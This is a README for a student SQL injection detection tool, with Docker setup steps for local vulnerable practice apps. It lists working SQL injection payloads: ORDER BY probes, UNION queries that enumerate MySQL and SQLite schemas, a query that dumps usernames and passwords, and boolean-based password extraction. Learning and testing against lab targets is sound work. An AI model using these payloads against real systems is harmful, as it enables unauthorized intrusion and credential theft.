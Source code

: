 # Vaccine - Web (Cybersecurity)

Detect SQL injection using a given URL
  - Check `Error` and `Union` SQL injections
  - Check `Mysql` and `SQLite` database types

Display following information in case a website is confirmed to be vulnerable
  - Payload used
  - Database names
  - Table names
  - Column names
  - Other values

Display result in terminal and store in a log file (default: `log.txt`)

## Usage

  ```
  usage: vaccine.py [-h] [-o O] [-x X] [-i] URL

  positional arguments:
    URL

  optional arguments:
    -h, --help  show this help message and exit
    -o O        Archive file, if not specified it will be stored in a default one.
    -x X        Type of request, if not specified GET will be used.
    -i          Specify talbe and column name using input.
  ```

- Start running docker containers
  ```
  make setup
  ```


## ① Damn Vulnerable Web Application [(github)](https://github.com/digininja/DVWA)

|  | data |
| - | - |
| url |  http://localhost:8080/vulnerabilities/sqli/index.php |
| method | GET |
| token | required |

1. Start docker container (`make setup`)
   ```
   docker run -it -d -p 8080:80 vulnerables/web-dvwa
   ```
2. Initialize database manually
   - http://localhost:8080/setup.php

3. Login manually
   - http://localhost:8080/login.php
   ```
   username: admin
   password: password
   ```

4. Get cookie
   - http://localhost:8080/index.php
   - get cookie value of `PHPSESSID`
     - inspect -> Application tab -> Storage -> Cookies

5. Set cookie to evn variable
   ```
   export TOKEN=YOUR_COOKIE
   ```

## ② sqli-playground [(github)](https://gitlab.cylab.be/cylab/play/sqlite-injection/)

|  | data |
| - | - |
| url | http://localhost:8000 | 
| method | POST |
| token | - |

1. Start docker container (`make setup`)
   ```
   docker run -d -p 8000:80 gitlab.cylab.be:8081/cylab/play/sqlite-injection
   ```

# SQL Injection

## Other SQL injection sites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## 1. ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

## 2. UNION

### a. MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### b. SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--
